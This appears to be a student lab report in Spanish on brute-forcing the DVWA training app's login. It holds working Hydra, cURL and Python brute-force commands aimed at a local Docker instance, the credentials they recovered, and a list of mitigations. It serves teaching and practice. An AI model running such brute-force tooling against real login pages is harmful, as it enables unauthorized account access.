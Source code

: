 # Informe Laboratorio 2 – DVWA (Damn Vulnerable Web App)

**Autor:** Felipe Cuevas  
**Fecha:** Septiembre 2025  
**Correo:** felipe.cuevas1@mail.udp.cl

---

## Descripción del laboratorio

En este laboratorio se realizaron pruebas de seguridad web sobre la aplicación vulnerable **DVWA**, específicamente sobre el módulo de **Brute Force**. Las herramientas empleadas fueron:

- Docker (para desplegar DVWA)  
- Burp Suite (proxy y ataque de fuerza bruta)  
- cURL (accesos válidos e inválidos)  
- Hydra (ataque de fuerza bruta automático)  
- Python (`requests`) para script de fuerza bruta  

Se obtuvieron resultados en forma de credenciales válidas, análisis de tráfico y comparación de herramientas.

---

## Contenido del repositorio

```
/actividades/
  ├─ levantamiento.png
  ├─ redireccion.png
  ├─ consultaproxy.png
  ├─ campos2.3.png
  ├─ prompt.png
  ├─ usuariosdiccionario.png
  ├─ passworddiccionario.png
  ├─ par1.png
  ├─ par1v2.png
  ├─ par1response.png
  ├─ par2.png
  ├─ par2v2.png
  ├─ par2response.png
  ├─ login.png
  ├─ php.png
  ├─ usodecurl.png
  ├─ welcome.png
  ├─ accesoinvalido.png
  ├─ lengthinvalido.png
  ├─ Lengthvalida.png
  ├─ hydracredencialn1.png
  ├─ gordonb.png
  ├─ hydracredencialn2.png
  └─ 1337.png

Docker-compose.yml  
usuarios.txt  
passwords.txt  
hydra_results.txt  
acceso_valido_low.txt  
acceso_invalido_low.txt  
script_bruteforce.py
```

---

## Procedimiento resumido

### 1. Despliegue de DVWA con Docker

```bash
git clone https://github.com/digininja/DVWA.git
cd DVWA
sudo docker-compose up -d
sudo docker ps
```

- Contenedores: `db` (MySQL) y `dvwa` (Apache + PHP)  
- Acceso: [http://localhost:4280](http://localhost:4280)  

![Levantamiento de DVWA](actividades/levantamiento.png)

---

### 2. Obtención de consultas con Burp Suite

- Configuración de proxy y navegador  
- Captura de petición GET al formulario de login  
- Identificación de campos: `username` y `password`  
- Generación de diccionarios con IA  
- Ejecución de ataque Intruder → obtención de pares válidos:

| Usuario | Contraseña |
|---------|------------|
| 1337    | Charley    |
| pablo   | letmein    |

![Consulta proxy](actividades/consultaproxy.png)

---

### 3. Accesos válidos e inválidos con cURL

```bash
curl -i --cookie "security=low; PHPSESSID=<ID>" \
"http://localhost:4280/vulnerabilities/brute/?username=pablo&password=letmein&Login=Login" > acceso_valido_low.txt

curl -i --cookie "security=low; PHPSESSID=<ID>" \
"http://localhost:4280/vulnerabilities/brute/?username=pablo&password=pablito&Login=Login" > acceso_invalido_low.txt
```

Diferencias clave entre respuestas:

- Mensaje de autenticación  
- Imagen de perfil del usuario  
- Tamaño del contenido (Content-Length)  
- Inclusión del nombre de usuario en HTML  

![Acceso válido](actividades/Lengthvalida.png)  
![Acceso inválido](actividades/lengthinvalido.png)

---

### 4. Ataque de fuerza bruta con Hydra

```bash
hydra -L usuarios.txt -P passwords.txt localhost http-get-form \
"/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:security=low;PHPSESSID=<ID>:F=Username and/or password incorrect" \
-V -s 4280 -o hydra_results.txt
```

Credenciales obtenidas:

| Usuario  | Contraseña |
|----------|------------|
| gordonb  | abc123     |
| 1337     | charley    |

![Hydra credenciales](actividades/hydracredencialn1.png)

---

### 5. Script de fuerza bruta en Python

- Librería: `requests`  
- Itera sobre listas de usuarios y contraseñas  
- Mantiene sesión con cabecera `Cookie`  
- Detecta respuestas válidas comparando contenido HTML  

```python
import requests

url = "http://localhost:4280/vulnerabilities/brute/"
cookies = {"security":"low","PHPSESSID":"<ID>"}
usuarios = ["1337", "pablo"]
passwords = ["charley", "letmein"]

for u in usuarios:
    for p in passwords:
        r = requests.get(url, params={"username":u,"password":p,"Login":"Login"}, cookies=cookies)
        if "Welcome" in r.text:
            print(f"Usuario: {u}, Contraseña: {p}")
```

---

### 6. Comparación de herramientas

| Herramienta | Ventajas | Desventajas |
|------------|----------|-------------|
| Burp Suite | Preciso, analiza tráfico, permite modificar peticiones | Lento en ataques masivos |
| cURL       | Rápido, control manual | Laborioso para pruebas múltiples |
| Hydra      | Muy rápido, ataques concurrentes | Detectable por WAF, menos control |
| Python     | Flexible, personalizable | Rendimiento intermedio |

---

## Métodos de mitigación de fuerza bruta

1. Limitación de intentos de login  
2. Captchas o validaciones humanas  
3. Bloqueo temporal de cuentas tras múltiples fallos  
4. Uso de autenticación multifactor (2FA)

---

## Referencias

- DVWA: [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)  
- Burp Suite Community: [https://portswigger.net/burp/communitydownload](https://portswigger.net/burp/communitydownload)  
- Hydra: [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)
